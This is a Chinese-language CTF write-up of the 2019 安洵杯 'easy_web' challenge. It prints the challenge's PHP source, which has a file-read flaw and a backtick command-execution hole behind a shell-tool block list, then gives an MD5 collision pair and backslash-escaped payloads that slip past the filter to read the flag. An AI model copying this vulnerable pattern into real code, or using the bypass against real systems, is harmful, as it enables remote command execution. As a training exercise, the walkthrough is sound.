 ```yaml
---
layout: post
title: 2019 安洵杯 Web wp
date: 2021-03-24 17:37 +0800
last_modified_at: 2021-03-24 17:37:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

* # 0x01 easy\_web

  关键词：文件读取，源码泄露，md5强碰撞，反斜杠绕过

打开网页发现增加了两个get类型的变量，其中image变量名称怀疑为base64加密后的数据

cmd变量为空，初步猜测为输入点![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/axb1.png)经过两次base64解码后发现为十六进制字符串，翻译后得

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/abx2.png)

更改img变量内容发现左上角图片消失，判断可以采用此方法泄露源代码，此时将index.php按顺序加密后作为image变量输入得到base64加密后的源代码，解密后获得源代码如下

    <?php
    error_reporting(E_ALL || ~ E_NOTICE);
    header('content-type:text/html;charset=utf-8');
    $cmd = $_GET['cmd'];
    if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
        header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
    $file = hex2bin(base64_decode(base64_decode($_GET['img'])));
    
    $file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
    if (preg_match("/flag/i", $file)) {
        echo '<img src ="./ctf3.jpeg">';
        die("xixi～ no flag");
    } else {
        $txt = base64_encode(file_get_contents($file));
        echo "<img src='data:image/gif;base64," . $txt . "'></img>";
        echo "<br>";
    }
    echo $cmd;
    echo "<br>";
    if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
        echo("forbid ~");
        echo "<br>";
    } else {
        if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
            echo `$cmd`;
        } else {
            echo ("md5 is funny ~");
        }
    }
    
    ?>
    <html>
    <style>
      body{
       background:url(./bj.png)  no-repeat center center;
       background-size:cover;
       background-attachment:fixed;
       background-color:#CCCCCC;
    }
    </style>
    <body>
    </body>
    </html>

由源代码可知img变量过滤flag，即不能通过img变量获取flag，并且可以通过利用cmd字符串的代码执行漏洞获取flag。

由代码审计可知需要以post方式传入两个变量a和b并且使a与b的md5值相等同时a与b的字符串值不等，这与之前做过的用数组绕过md5的题不同，该题中采用数组绕过md5的过程中会使第一个条件即强行转化字符串后得到的结果也相等，则直接跳转到下一个条件处。因而只能采用md5强碰撞完成，下面给出解该题所用的md5碰撞字符串对：

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

a与b在url解码后进行md5加密得到相同的结果，如下图所示：![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/axb3.png)而后通过反斜杠`\`规避正则表达式过滤，最终获取根目录下的flag

Payload：

```
&cmd=dir%20/    //查看根目录下的文件，发现flag
&cmd=ca\t%20/fl\ag    //获取flag
```




